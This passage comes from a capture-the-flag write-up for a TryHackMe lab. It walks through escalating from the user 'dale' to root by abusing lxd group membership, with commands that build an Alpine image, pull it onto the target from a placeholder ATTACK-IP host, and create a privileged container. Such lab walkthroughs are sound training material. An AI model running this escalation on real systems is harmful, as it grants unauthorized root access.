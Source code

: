 The unintended privesc method allows us to move from dale directly to root by exploiting a privilege escalation method available to members of the `lxd` and `lxc` groups : 

```console
dale@TEAM:~$ id
uid=1000(dale) gid=1000(dale) groups=1000(dale),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),113(lpadmin),114(sambashare),1003(editors)
```

Lxd and Lxc are used in the [creation and management of containers in Linux environments](https://linuxcontainers.org/lxd/introduction/). It represents a privilege escalation vector in so far as it allows members of the lxd or lxc groups to create containers in which they have root permissions - the exploit involves creating such a container and mounting the host file system, providing access to the file system as a root-level user. This sounds complicated, but is actually quite simple to perform - here, we'll be using a [method included in the HackTricks guide](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation).

To start, we'll need to create the image that will be used to create the container on the target. This requires pulling a [helper script from github](https://github.com/saghul/lxd-alpine-builder/blob/master/build-alpine) - as THM machines are isolated from the internet, we'll do this on the attack machine. Download the script and run it as follows : 

```console
┌──(kali㉿kali)-[~/Documents/tthm/team]
└─curl https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine -o alpine-builder.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  7662  100  7662    0     0  78989      0 --:--:-- --:--:-- --:--:-- 79812

┌──(kali㉿kali)-[~/Documents/tthm/team]
└─$ sudo bash ./alpine-builder.sh
Determining the latest release... v3.14
...snip... (lots and lots of ...snip...)
```

The result is a tar.gz archive that contains the image information. Download this archive to dale's home directory on the target machine :

```console
dale@TEAM:~$ wget ATTACK-IP/alpine-v3.14-x86_64-20211029_1951.tar.gz
```

and import the image to lxc :

```console
dale@TEAM:~$ lxc image import ./alpine-v3.14-x86_64-20211029_1951.tar.gz --alias EXPLOIT-IMAGE
If this is your first time running LXD on this machine, you should also run: lxd init
To start your first container, try: lxc launch ubuntu:16.04

Image imported with fingerprint: 9ef402a8790d4723b2a7b15ddcb744e79d2570b92ad2259bda04747168caaad4
```

You can now create a container from the image. We start by initializing lxd (accept all the default settings) before creating the container from the image with the flag `security.privileged=true` :

```console
dale@TEAM:~$ lxd init
Would you like to use LXD clustering? (yes/no) [default=no]: 
...snip...
dale@TEAM:~$ lxc init EXPLOIT-IMAGE EXPLOIT-CONTAINER -c security.privileged=true
Creating EXPLOIT-CONTAINER
```
